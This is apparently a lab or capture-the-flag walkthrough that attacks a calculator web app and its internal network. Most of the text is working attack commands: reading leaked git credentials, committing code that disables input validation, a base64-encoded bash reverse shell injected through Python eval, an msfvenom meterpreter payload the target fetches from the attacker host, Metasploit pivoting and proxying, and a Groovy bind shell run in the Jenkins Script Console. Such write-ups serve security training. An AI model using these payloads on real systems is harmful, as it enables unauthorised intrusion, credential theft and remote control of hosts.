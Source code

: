# BLACK BOX TESTING 2

## GIVEN   
**MY IP ADDRESS**: 192.32.59.2

## PROCEDURE

### RECON

```
nmap -A --script vuln -p- online-calc.com
```

![1.1](./imgs/1.1.png)

TARGET IP: 192.32.59.3

**OPEN PORTS**:<br>
80 http (Apache 2.4.29 Web Server),<br>
5000 http,<br>
8000 http (Python 2.7.17 Web Server)<br>

Port 80 is the default apache page<br>
Port 5000 is a calc webapp<br>
Port 8000 is hosting a git repo<br>

**FILE OF INTEREST**: http://online-calc.com:8000/.git/config

### GIT CREDENTIALS

```
curl http://online-calc.com:8000/.git/config
```

![2.1](./imgs/2.1.png)

name = Jeremy McCarthy<br>
email = jeremy@dummycorp.com<br>
**password** = diamonds<br>
**username** = jeremy<br>

**GIT URL**: http://online-calc.com/projects/online-calc

### DISABLE INPUT VALIDATION

```
git clone http://online-calc.com/projects/online-calc
git log
```

![3.1](./imgs/3.1.png)

Webapp was vulnerable to RCE through the eval function

Find new code added to patch this vulnerability
```
git diff 9aa6151c1d5e92ae0bd3d8ad8789ae9bb2d29edd 4bcfb590014321deb984237da2a319206975170f
```

![3.2](./imgs/3.2.png)

Comment out code in API.py:
```
# if not isValid(expr):
#	return error("Invalid expression!")
```

![3.3](./imgs/3.3.png)

Push changes to git repo
```
git add -A
git commit -m "updated"
git push origin
```

Check if webapp is updated
```
curl http://online-calc.com:8000/API.py
```

![3.4](./imgs/3.4.png)

### RCE REVERSE SHELL

Calc input is run through python eval function

Reverse shell bash script<br>
-c COMMAND<br>
-i interactive shell
```
bash -c 'bash -i >& /dev/tcp/192.32.59.2/1234 0>&1'
```

Reverse shell embedded in python code
```
__import__('os').system("bash -c 'bash -i >& /dev/tcp/192.32.59.2/1234 0>&1'")
```

Encode reverse shell
```
echo "bash -c 'bash -i >& /dev/tcp/192.32.59.2/1234 0>&1'" | base64
```

**ENCODED SCRIPT**:YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMzIuNTkuMi8xMjM0IDA+JjEnCg==

Final python script
```
__import__('os').system("echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMzIuNTkuMi8xMjM0IDA+JjEnCg== | base64 -d | bash")
```

Start listener
```
nc -lnvp 1234
```

Submit python script to calc app

![4.1](./imgs/4.1.png)

```
find / -iname *flag*
cat /tmp/flag
```

![4.2](./imgs/4.2.png)

**FLAG**: 3b2b474c06380f696b38c1498f795e054374

```
ip addr
```

Host connected to another network that we can pivot to:<br>
eth0: 192.32.59.3/24 (Current Network)<br>
**eth1**:192.244.194.2/24 (Unreachable Network)

![4.3](./imgs/4.3.png)

### METERPRETER

Create payload & start server<br>
-p PAYLOAD
-f FORMAT
```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.32.59.2 LPORT=4444 -f elf > PAYLOAD
python3 -m http.server 80
```

Download payload on target machine
```
curl http://192.32.59.2/PAYLOAD > PAYLOAD
```

![5.1](./imgs/5.1.png)

Set up payload handler in metasploit
```
msfconsole
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LHOST 192.32.59.2
set LPORT 4444
exploit
```

Execute payload
```
chmod +x PAYLOAD
./PAYLOAD
```

![5.2](./imgs/5.2.png)

### PIVOT

Run port scan on other network
```
run autoroute -s 192.244.194.0/24
background
use auxiliary/scanner/portscan/tcp 
set RHOSTS 192.244.194.0/24
run
```

![6.1](./imgs/6.1.png)

**IP (OPEN PORT)**: 192.244.19.3 (8080)

Configure port forwarding and run nmap
```
sessions -i 1
portfwd add -l 5555 -p 8080 -r 192.244.194.3
background
nmap -sV -sC -p5555 localhost
```

![6.2](./imgs/6.2.png)

SERVICE: http (Jetty 9.4.27)

Start proxy server to access website
```
use auxiliary/server/socks_proxy
set SRVPORT 9050 #Default port for proxychains
set VERSION 4a
run
```

Test to see if we can access network
-Pn pingless scan (proxies don't support ping)
-sT tcp scan
```
proxychains nmap -sT -Pn 192.244.194.3
```

Configure proxy for browser:<br>
- Manual proxy config
- SOCKS Host: 127.0.0.1
- Port: 9050
- Socks v4

Website running Jenkins (automation server)

![6.3](./imgs/6.3.png)

### GETTING SHELL ACCESS

Go to Jenkins > Manage Jenkins > Script Console

Execute groovy bind script in the Script Console:
```
int port=6666;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start()
Socket s = new java.net.ServerSocket(port).accept()
InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Connect to the server
```
proxychains nc -v 192.244.194.3 6666
```

![7.1](./imgs/7.1.png)
